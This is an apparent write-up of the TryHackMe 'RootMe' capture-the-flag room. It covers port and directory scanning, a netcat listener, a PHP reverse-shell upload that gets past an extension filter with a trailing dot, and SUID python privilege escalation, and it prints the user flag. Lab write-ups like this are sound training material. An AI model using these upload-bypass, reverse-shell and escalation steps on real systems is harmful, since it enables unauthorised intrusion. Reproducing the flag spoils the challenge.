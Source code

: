 # RootMe

**Date:** 09.02.2025  
**Difficulty:** Easy

---

## Questions and Answers ✅

1. Scan the machine, how many ports are open?
`2`
2. What version of Apache is running?
`2.4.29`
3. What service is running on port 22?
`ssh`
4. What is the hidden directory?
`/panel/`
5. user.txt (flag)?
`THM{y0u_g0t_a_sh3ll}`
6. Search for files with SUID permission, which file is weird?
`/usr/bin/python`
7. root.txt (flag)?
``
---

## Obtained Information 🔍

- **Target IP Address:** `<IP_ADDRESS>`
- open ports: 22 | 80
- website lets unverified file upload and we can access uploaded files
- 

---

## Process 🕵️‍♂️

1. Using nmap to scan open ports:
```bash
nmap -sV -sS <IP_ADDRESS>
```

*Results*
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

So we have found answers for 3 questions at once!

2. Using gobuster to get hidden directory:
```bash
gobuster dir -u "http://<IP_ADDRESS>" -w ./Desktop/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -r -x .js,.php
```

*Results*
```bash
/index.php            (Status: 200) [Size: 616]
/.php                 (Status: 403) [Size: 278]
/uploads              (Status: 200) [Size: 744]
/css                  (Status: 200) [Size: 1126]
/js                   (Status: 200) [Size: 959]
/panel                (Status: 200) [Size: 732]
/server-status        (Status: 403) [Size: 278]
```

Another question answered!

3. Exploiting unauthorized files upload available on web server by setting up listening on port 1234 for incoming connections:
```bash
nc -vnlp 1234
```

and uploading reverse shell script (after editing line 49 and 50):
*script:* https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

4. While trying to upload a file we get an error, saying that we can't upload php files. We can omit that in many ways. I used adding dot (.) at the end of the file name (after extension).

5. Now we got control over target system. Running 
```bash
find . -type f -name "user.txt"
``` 
we can find that file in var/www directory and 
```bash
cat ./var/www/user.txt
```

We got a flag!

6. Next we use command to search through files with SUID permission to say which file is weid:
```bash
find / -user root -perm /4000 | grep -v "Permission"
```
I wanted to exclude a lot of "Permission denied" files. The answer for the question is /usr/bin/python!

7. This file is weird, because it is present on *GTFOBins* list, which means we can use this file as vulnerability. One of there is privilege escalation:
```text
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor.
```


---

## Reflection & Questions for Further Research 🤔💡

- Why php script is executed when opened and python or bash scripts are not?

---

## Summary & Takeaways 📌📖

- learned that we can search for files that needs root permission 
- What is SUID (/4000)
- learned about GTFOBins

---